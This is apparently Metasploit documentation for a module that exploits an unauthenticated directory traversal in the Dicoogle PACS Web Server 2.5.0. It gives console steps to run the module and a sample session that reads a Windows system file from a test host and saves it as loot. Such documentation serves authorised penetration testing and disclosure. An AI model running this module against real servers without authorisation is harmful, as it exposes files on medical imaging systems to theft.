 ## Description

This module exploits an unauthenticated directory traversal vulnerability
in the Dicoogle PACS Web Server v2.5.0 and possibly earlier, allowing an
attacker to read arbitrary files with the web server privileges.
While the application is java based, the directory traversal was only
successful against Windows targets.


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/dicoogle_traversal`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows 2012 with Dicoogle 2.5.0 on Java 8 update 151

  ```
  msf5 > use auxiliary/scanner/http/dicoogle_traversal 
  msf5 auxiliary(scanner/http/dicoogle_traversal) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf5 auxiliary(scanner/http/dicoogle_traversal) > run
  
  [+] ; for 16-bit app support
  [fonts]
  [extensions]
  [mci extensions]
  [files]
  [Mail]
  MAPI=1
  
  [+] File saved in: /root/.msf4/loot/20180721210736_default_1.1.1.1_dicoogle.travers_903795.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
